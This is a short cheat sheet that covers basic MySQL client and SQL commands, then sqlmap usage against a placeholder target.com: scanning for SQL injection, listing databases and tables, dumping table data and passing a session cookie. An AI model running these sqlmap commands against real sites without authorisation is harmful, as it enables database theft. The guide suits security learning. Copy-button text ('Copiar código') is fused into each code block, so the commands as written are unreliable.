 # SQL

#### Connecting to a MySQL Database

```bash
bashCopiar códigomysql -u [username] -p -h [host] [database]
```

* Example: `mysql -u root -p -h 127.0.0.1 testdb`
* After entering the command, you’ll be prompted for the MySQL password.

#### Common SQL Commands

1.  **Show Databases**

    ```sql
    sqlCopiar códigoSHOW DATABASES;
    ```
2.  **Use a Database**

    ```sql
    sqlCopiar códigoUSE [database_name];
    ```
3.  **Show Tables in the Database**

    ```sql
    sqlCopiar códigoSHOW TABLES;
    ```
4.  **Describe Table Structure**

    ```sql
    sqlCopiar códigoDESCRIBE [table_name];
    ```
5.  **Select Data from a Table**

    ```sql
    sqlCopiar códigoSELECT * FROM [table_name];
    ```

    * Example: `SELECT * FROM users;`
6.  **Insert Data into a Table**

    ```sql
    sqlCopiar códigoINSERT INTO [table_name] (column1, column2) VALUES ('value1', 'value2');
    ```

    *   Example:

        ```sql
        sqlCopiar códigoINSERT INTO users (name, age) VALUES ('John Doe', 30);
        ```
7.  **Update Data in a Table**

    ```sql
    sqlCopiar códigoUPDATE [table_name] SET [column] = 'value' WHERE [condition];
    ```

    *   Example:

        ```sql
        sqlCopiar códigoUPDATE users SET age = 31 WHERE name = 'John Doe';
        ```
8.  **Delete Data from a Table**

    ```sql
    sqlCopiar códigoDELETE FROM [table_name] WHERE [condition];
    ```

    *   Example:

        ```sql
        sqlCopiar códigoDELETE FROM users WHERE name = 'John Doe';
        ```
9.  **Create a New Table**

    ```sql
    sqlCopiar códigoCREATE TABLE [table_name] (
      id INT AUTO_INCREMENT,
      name VARCHAR(255),
      age INT,
      PRIMARY KEY (id)
    );
    ```
10. **Drop a Table**

```sql
sqlCopiar códigoDROP TABLE [table_name];
```

#### SQLMap Basics

**1. Basic Usage**

```bash
bashCopiar códigosqlmap -u "http://target.com/page.php?id=1"
```

* This scans the target URL for SQL injection vulnerabilities.

**2. Specify Database**

```bash
bashCopiar códigosqlmap -u "http://target.com/page.php?id=1" --dbs
```

* Retrieves a list of databases from the target.

**3. Select a Specific Database**

```bash
bashCopiar códigosqlmap -u "http://target.com/page.php?id=1" -D [database_name] --tables
```

* Example: `sqlmap -u "http://target.com/page.php?id=1" -D testdb --tables`
* Lists the tables in the specified database.

**4. Dump Data from a Table**

```bash
bashCopiar códigosqlmap -u "http://target.com/page.php?id=1" -D [database_name] -T [table_name] --dump
```

* Example: `sqlmap -u "http://target.com/page.php?id=1" -D testdb -T users --dump`
* Dumps the data from the specified table.

**5. Automatic Form Authentication**

```bash
bashCopiar códigosqlmap -u "http://target.com/page.php?id=1" --forms --batch
```

* Scans forms for SQL injection automatically.

**6. Specify Cookie for Authentication**

```bash
bashCopiar códigosqlmap -u "http://target.com/page.php?id=1" --cookie="PHPSESSID=xyz123"
```

* Use this if the target requires authentication via cookies.
